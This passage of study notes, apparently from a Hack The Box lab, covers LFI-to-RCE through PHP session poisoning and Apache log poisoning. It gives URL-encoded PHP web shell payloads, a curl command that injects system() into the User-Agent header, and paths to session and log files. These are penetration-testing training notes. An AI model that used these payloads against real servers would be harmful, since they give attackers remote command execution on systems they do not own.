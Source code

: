 - get request to this URL
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_1q2w3e4r5t6y7u8i9o
```
- look at the response and find out which parameter can be controlled and change the parameter through URL and get request again to above URL and see what are changing

- eg - get this request `http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning`
  and get again the sessions file and find the word **session_poisoning**

- we can write basic PHP shell by changing the ?language= parameter to URL encoded web shell as 
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

- then include the session file and use the **&cmd=id** to execute a command
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
- to execute send alternatively the payload and command url


## Server Log poisoning

- log file names - `access.log` and `error.log`
- `access.log` file contains various information about all requests made to the server including each request's User-Agent header
- we can control the User-Agent header in the requests and can use it to poison the server logs

- once poisoned, we need to include the logs through the LFI vulnerabilitiy and need to have read-access over the logs
- Nginx logs are readable by low privileged users by default and located at `/var/log/nginx` or `C:\nginx\log`
- Apache logs are only readable by users with high privileges and located at `/var/log/apache2` or `C:\xampp\apache\logs\`
- can use `SecList/Fuzzing/LFI` wordlists
- eg - try to get Apache access log from LFI
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

- try to change the User-Agent header to payload that we want
```
...
User-Agent: <?php system($_GET["cmd"]); ?>
```

- with cURL
```
thnwht@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

- then to execute the command, try to get request to
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id
```
